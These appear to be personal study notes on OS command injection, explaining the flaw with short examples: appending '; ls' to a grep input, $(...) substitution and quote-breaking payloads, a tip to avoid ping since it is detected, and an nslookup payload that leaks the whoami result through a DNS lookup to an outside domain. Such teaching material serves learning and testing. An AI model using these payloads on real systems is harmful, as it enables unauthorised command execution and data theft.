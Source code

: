 OS command injection is also known as shell injection. It allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data. Often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, and exploit trust relationships to pivot the attack to other systems within the organization.

After you identify an OS command injection vulnerability, it's useful to execute some initial commands to obtain information about the system.

In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Command injection attacks are possible largely due to insufficient input validation.

> [!example]
> Imagine a textbox in a website connected to the shell. Lets say it executes this command:
> ````bash
> grep -i $input dictionary.txt
> ````
> 
> We can modify our input so that our own command is injected instead:
> ````bash
> grep -i $input; ls # dictionary.txt
> 			  ^    ^
> 			start end
> ````

> [!important] Command Injection appearance
> This vulnerability usually only appears if you have a need for running commands on the OS

> [!important] Substitution command
> Earlier example with `;` usually can get stuck when input is validated
> Use Substitution command trick in Linux:
> 
> ```bash
> echo MY NAME IS "FIRSTNAME $(echo TEST) LASTNAME"
> > MY NAME IS FIRSTNAME TEST LASTNAME 
> ```

> [!attention] Pay attention to quotation `""`
> Single Quotation does not work
> ```bash
> echo MY NAME IS 'FIRSTNAME $(echo TEST) LASTNAME'
> > MY NAME IS FIRSTNAME $(echo TEST) LASTNAME
> ```
> **This WORKS!** and it is called Polymorphic Payloads
> ```bash
> echo MY NAME IS 'FIRSTNAME '$(echo TEST)' LASTNAME '
> ```

After finding out this vulnerability, you have to test to confirm.
DO NOT test with ping as it will be caught. Use a command that both Linux and Windows have.
Such as [[Linux/Commands/Networking/nslookup|nslookup]]

Below command would find the result of `whoami` command and it would make a request to that subdomain of google.com. 

```bash
echo MY NAME IS 'FIRSTNAME '$(nslookup $(whoami).google.com)' LASTNAME'
```

Therefore you would find the current user
